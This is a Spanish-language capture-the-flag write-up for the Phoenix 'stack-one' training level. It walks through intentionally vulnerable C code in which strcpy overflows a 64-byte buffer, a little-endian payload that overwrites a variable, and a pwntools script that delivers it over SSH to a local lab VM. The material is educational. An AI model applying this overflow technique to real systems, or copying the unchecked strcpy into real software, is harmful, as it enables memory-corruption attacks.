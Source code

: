 ```yaml
---
layout: single
title: "Stack One"
permalink: /pwn/phoenix/stack-one/
parent: Phoenix
comments: true
excerpt: "Stack One"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **modificar variables a valores específicos dentro de la memoria**, aprovechando un desbordamiento de buffer.  

El binario está ubicado en:  

##  Consejos útiles

- `man ascii` puede ayudarte a traducir valores hexadecimales a caracteres.  
- Ten en cuenta la [endianess](https://en.wikipedia.org/wiki/Endianness) de la arquitectura, ya que afecta el orden en el que se guardan los bytes en memoria.  

---

## Análisis del código

El programa copia el argumento del usuario dentro de un buffer de 64 bytes, pero no controla el tamaño con strcpy.
Esto nos permite escribir más allá del buffer y modificar la variable changeme, que está justo después en la memoria.

El objetivo es ponerle el valor 0x496c5962.


```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>    // Biblioteca para funciones de manejo de errores
#include <stdio.h>  // Biblioteca estándar para entrada/salida
#include <stdlib.h> // Biblioteca para funciones generales, como exit()
#include <string.h> // Biblioteca para funciones de manipulación de cadenas
#include <unistd.h> // Biblioteca para funciones del sistema POSIX, como sleep()

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa

int main(int argc, char **argv) { 
  // Punto de entrada del programa principal. Toma el número de argumentos y sus valores.

  struct { 
    char buffer[64];          // Define un espacio de memoria para una cadena de 64 bytes.
    volatile int changeme;    // Variable marcada como "volatile", para evitar optimizaciones. Su valor debe ser cambiado por el exploit.
  } locals;                   // Crea una estructura llamada 'locals' que agrupa las dos variables.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida almacenado en la constante BANNER.

  if (argc < 2) { 
    // Verifica que el usuario haya proporcionado al menos un argumento al programa.
    errx(1, "specify an argument, to be copied into the \"buffer\"");
    // Si no se proporciona un argumento, muestra un mensaje de error y finaliza el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, argv[1]); 
  // Copia el argumento proporcionado (argv[1]) en el buffer 'buffer'.
  // Vulnerabilidad: No se verifica el tamaño del argumento, lo que puede provocar un desbordamiento de búfer.

  if (locals.changeme == 0x496c5962) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x496c5962.
    puts("Well done, you have successfully set changeme to the correct value");
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
    // Si el valor es incorrecto, imprime el valor actual de 'changeme' y el valor esperado.
  }

  exit(0); 
  // Finaliza el programa correctamente con el código de salida 0.
}

```

**Ejecución inicial**

Si ejecutamos el binario sin argumentos:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one 
Welcome to phoenix/stack-one, brought to you by https://exploit.education
stack-one: specify an argument, to be copied into the "buffer"
```

Con un solo carácter (A) vemos que changeme sigue en cero: nos da el valor de 0x00000000

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one A
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962

```

**Desbordamiento del buffer**

Probamos llenando el buffer con 64 caracteres A, y luego añadimos BBBB (hex: 0x42424242). ya con esto logramos sobreescribir la variable changeme
```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*64'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42424242, we want 0x496c5962

```

**Escribiendo el valor correcto**

El valor esperado es 0x496c5962. En little endian, debe enviarse como: \x62\x59\x6c\x49 y con esto vemos que superamos el reto.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print "A" * 64 + "\x62\x59\x6c\x49"')
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64 + b"\x62\x59\x6c\x49"
   6   │ 
   7   │ # Establece conexión SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ #  Ejecuta el programa remoto con la primera condición
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-one', payload])
  12   │ 
  13   │ # Captura y muestra la salida
  14   │ flag = process.recvall().decode()
  15   │ log.success("Output: " + flag)
  16   │ 
  17   │ # Cierra la conexión
  18   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue completado

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 554
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-one'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-one' on localhost (pid 554)
[+] Output: Welcome to phoenix/stack-one, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value

```

**Conclusión**

Este nivel muestra cómo un desbordamiento de buffer puede alterar el flujo normal de un programa, permitiendo modificar valores en memoria que originalmente no deberían cambiarse. El reto introduce la importancia de comprender la disposición de la pila y cómo un manejo inseguro de cadenas de caracteres abre la puerta a vulnerabilidades críticas.